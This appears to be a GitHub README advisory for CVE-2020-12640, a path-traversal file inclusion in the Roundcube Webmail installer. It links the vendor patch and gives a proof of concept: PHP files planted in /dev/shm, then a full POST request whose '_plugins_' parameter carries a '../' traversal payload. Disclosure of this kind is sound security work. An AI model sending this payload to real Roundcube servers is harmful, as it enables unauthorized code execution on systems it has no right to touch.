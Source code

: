 # CVE-2020-12640: Local PHP File Inclusion via "Plugin Value" in Roundcube Webmail

A Path Traversal vulnerability exists in Roundcube versions before 1.4.4, 1.3.11 and 1.2.10.
<br/>
Because the "\_plugins\_\<PLUGIN\_NAME\>" parameters do not perform sanitization/input filtering, an attacker with access to the Roundcube Installer can leverage a path traversal vulnerability to include arbitrary PHP files on the local system.

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://roundcube.net/news/2020/04/29/security-updates-1.4.4-1.3.11-and-1.2.10).

### Proof Of Concept:

In order to reproduce this vulnerability, the following steps are required:

#### Create a PHP file and directory to a known location

In this case, in order to simplify the PoC, we consider the attacker to have SSH access as a low privileged user and write the files to "/dev/shm".
<img src="PHP%20Files.png"/>

<strong>Note:</strong> In this case the PHP files will execute and display the "id" system command.

#### Craft Path Traversal Request

We craft and send a POST request to the Installer containing the malicious path traversal within a "\_plugins\_..." parameter:
```
POST /roundcube/installer/index.php HTTP/1.1
Host: 192.168.243.153
Content-Type: application/x-www-form-urlencoded
Content-Length: 936

_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&_plugins_qwerty=../../../../../../dev/shm/zipdownload&submit=UPDATE+CONFIG
```

<strong>Note:</strong> By viewing the error logs, we can see that Roundcube now tries to load the "/var/www/html/roundcube/plugins/../../../../../../dev/shm/zipdownload/../../../../../../dev/shm/zipdownload.php" file, which resolves to "/dev/shm/zipdownload.php".

#### Result

If the attack was performed correctly, when accessing any page of the Roundcube application the attacker should be greeted with the following page:
<img src="LFI.png"/>


